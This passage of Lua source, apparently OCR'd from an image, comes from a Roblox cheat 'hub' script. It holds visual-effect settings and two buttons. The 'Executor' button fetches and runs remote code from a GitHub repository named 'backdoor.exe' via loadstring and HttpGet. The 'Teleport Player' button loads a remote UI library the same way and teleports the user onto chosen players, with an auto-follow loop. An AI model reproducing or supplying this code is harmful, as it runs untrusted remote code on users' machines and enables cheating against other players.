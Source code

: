 local e = Instance.new("ColorCorrectionEffect", a)
e.Brightness = 0
e.Contrast = -0.07
e.Saturation = 0
e.Enabled = true
e.TintColor = Color3.fromRGB(255, 247, 239)
local e2 = Instance.new("ColorCorrectionEffect", a)
e2.Brightness = 0.2
e2.Contrast = 0.45
e2.Saturation = -0.1
e2.Enabled = true
e2.TintColor = Color3.fromRGB(255, 255, 255)
local s = Instance.new("SunRaysEffect", a)
s.Enabled = true
s.Intensity = 0.01
s.Spread = 0.146

print("RTX Graphics loaded! Created by BrickoIcko")

end)

section2:addButton("Executor⬅️", function()
loadstring(game:HttpGet("https://raw.githubusercontent.com/iK4oS/backdoor.exe/master/source.lua"))()
end)
section1:addButton("Teleport Player⬅️", function()
local Library = loadstring(game:HttpGet("https://raw.githubusercontent.com/xHeptc/Kavo-UI-Library/main/source.lua"))()
local Window = Library.CreateLib("LegacyHub Teleport Player", "Ocean")
local Tab = Window:NewTab("Player")
local Section = Tab:NewSection("Select Player!")
Plr = {}
for i,v in pairs(game:GetService("Players"):GetChildren()) do
    table.insert(Plr,v.Name) 
end
local drop = Section:NewDropdown("Select Player!", "Click To Select", Plr, function(t)
   PlayerTP = t
end)

Section:NewButton("Refresh Player","Refresh Player", function()
  drop:Refresh(Plr)
end)

Section:NewButton("Click To TP", "", function()
    game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = game.Players[PlayerTP].Character.HumanoidRootPart.CFrame
end)
Section:NewToggle("Auto Tp", "", function(t)
_G.TPPlayer = t
while _G.TPPlayer do wait()
game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = game.Players[PlayerTP].Character.HumanoidRootPart.CFrame
end
end)

end)

venyx:SelectPage(venyx.pages[1], true)

